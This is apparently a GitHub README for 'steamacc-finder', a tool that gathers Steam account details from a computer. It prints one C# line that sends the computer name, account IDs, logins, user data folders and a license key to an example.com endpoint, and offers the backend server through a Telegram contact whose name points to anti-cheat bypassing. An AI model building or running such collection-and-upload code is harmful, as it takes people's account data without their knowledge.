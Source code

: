 # steamacc-finder
A simple client for finding a list of Steam accounts

# Important:

This release does not contain a native web server that is being used in this line:

```string url = $"http://example.com/api.php?computername={computerName}&perm_account_id={permAccountIdsString}&acc_login={accountLoginsString}&acc_ids={userDataFoldersString}&license_key={unique_key}";```

If you want get it, feel free to dm me: https://t.me/trustfactorbypass
